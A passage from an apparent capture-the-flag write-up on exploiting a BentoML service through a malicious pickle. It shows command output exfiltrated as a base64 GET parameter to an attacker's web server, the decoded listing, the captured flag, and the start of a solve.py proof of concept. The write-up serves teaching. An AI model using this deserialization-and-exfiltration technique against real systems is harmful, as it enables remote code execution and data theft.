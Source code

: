 ```python
print(response.text)

# Write the result to a file
# with open("attack.pkl", "wb") as f:
#     f.write(result)
```
{% endcode %}

The web server gets a hit and a base64-encoded value is logged as a GET parameter.
![](./images/10.PNG)

{% code overflow="wrap" %}
```bash
echo "YmVudG9maWxlLnlhbWwKYmV0YV9zZXJ2aWNlLnB5CmZsYWcudHh0Cg==" | base64 -d
bentofile.yaml
beta_service.py
flag.txt
```
{% endcode %}

Repeat above but with `cat flag.txt` to solve the challenge 😌

Flag: `FLAG{b3n70_ml_607_50m3_m4j0r_155u35}`

#### solve.py

The DB clears every 30 mins so why not wrap everything into a single PoC?

{% code overflow="wrap" %}
```python
import requests
import pickle
import os
import random
import string
import logging
from bs4 import BeautifulSoup

# Configure logging
logging.basicConfig(level=logging.INFO,
                    format='%(asctime)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)

BASE_URL = "https://challenge.cryptocat.me"

# Generate a random username to avoid conflicts
def generate_random_username():
    return "cat_" + ''.join(random.choices(string.ascii_letters + string.digits, k=8))

# Extract CSRF token from HTML
```